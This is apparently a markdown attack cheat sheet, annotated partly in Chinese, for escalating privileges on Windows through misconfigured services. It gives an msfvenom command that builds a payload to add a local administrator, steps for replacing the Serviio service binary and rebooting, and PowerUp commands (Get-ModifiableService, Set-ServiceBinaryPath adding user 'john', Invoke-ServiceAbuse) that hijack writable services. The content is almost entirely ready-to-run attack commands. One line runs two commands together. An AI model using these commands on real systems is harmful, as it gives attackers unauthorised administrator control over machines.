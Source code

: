 ### exploit

```bat
# generate payload 
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe

# MSF进程迁移，配合使用避免建立session 后 die
post/windows/manage/migrate

#查询服务信息
sc qc WeakService

move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

# stop service
net stop Serviio

# 查看是否可重启， 无SeShutdownPrivilege表示无法重启
# disable 表示当前running process 无权限，即 whoami 无权限
whoami /priv

shutdown /r /t 0
```

### Service-Powerup

```powershell
# 根据给定的权限集测试一个或多个传递的服务或服务名称，返回当前用户具有指定权限的服务对象。
Test-ServiceDaclPermission

#从服务中过滤权限
Get-Service | Test-ServiceDaclPermission -PermissionSet 'AllAccess'
Get-Service | Test-ServiceDaclPermission -PermissionSet 'Restart'
Get-Service | Test-ServiceDaclPermission -PermissionSet 'ChangeConfig'
Get-Service | Test-ServiceDaclPermission -Permissions 'Start' |select -First 5Get-Service | Test-ServiceDaclPermission -Permissions 'Stop'
Get-Service | Test-ServiceDaclPermission -Permissions "ChangeConfig"

//method 1
#枚举所有服务，并返回脆弱的服务文件
Get-ModifiableServiceFile

#枚举当前用户可以修改 binPath 的所有服务并返回服务
Get-ModifiableService

#将服务二进制替换为添加本地管理或执行自定义命令的二进制
Install-ServiceBinary -Name 'WeakService'

#用原始可执行文件还原被替换的服务二进制文件
Restore-ServiceBinary -Name 'WeakService'

//method 2
Get-ModifiableService #枚举当前用户可以修改 binPath 的所有服务并返回服务。
Set-ServiceBinaryPath -Name WeakService -Path 'net user john Password123! /add ' #设置服务启动启动二进制文件，对应在注册表中ImagePath的值
Restart-Service WeakService #重启服务

//method 3, Invoke-ServiceAbuse
Get-ModifiableService #枚举当前用户可以修改 binPath 的所有服务并返回服务。
Invoke-ServiceAbuse -Name 'WeakService' #修改易受攻击的服务，以创建本地管理员或执行自定义命令，实际上它调用了Set-ServiceBinaryPath设置为执行的
```